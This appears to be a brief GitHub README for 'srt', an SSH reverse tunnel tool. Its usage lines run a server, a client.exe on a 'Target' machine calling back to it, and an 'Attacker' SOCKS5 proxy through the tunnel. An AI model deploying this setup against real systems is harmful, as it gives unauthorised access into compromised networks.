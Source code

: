 srt
=========

SSH Reverse Tunnel

![alt text](https://i.imgur.com/jwJ9sC3.png)

---------
****Usage****

 - Server: ./server.elf 0.0.0.0 2222 0.0.0.0 8080 passssh
 
 - Target: client.exe ServerIp 2222  passssh
 
 - Attacker: set proxy socks5 ServerIp:8080
 
 ---------
 
****Ref****
 
 - http://blog.ralch.com/tutorial/golang-ssh-tunneling/
 - https://blog.gopheracademy.com/go-and-ssh/
 - https://github.com/armon/go-socks5